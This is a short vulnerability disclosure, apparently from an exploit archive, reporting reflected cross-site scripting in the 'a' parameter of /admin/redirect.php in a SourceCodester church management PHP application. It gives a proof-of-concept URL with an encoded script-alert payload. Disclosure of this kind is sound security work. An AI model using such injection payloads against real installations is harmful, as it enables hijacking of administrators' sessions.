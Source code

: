 ### Exploit Title: Best church management software - xss
### Date: 2025-02/11
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php/17856/best-church-management-software-free-download-full-version.html
### Version: 1.0
### Tested on: windows10 + phpstudy

# 1./admin/redirect.php Parameter a has xss

### Sample request POC #1

```
http://localhost:8001/admin/redirect.php?a=%3Cscript%3Ealert(1)%3C/script%3E
```
### xss running results
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1739240731354.jpg "Best church management software")

![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1739240708154.jpg "Best church management software")
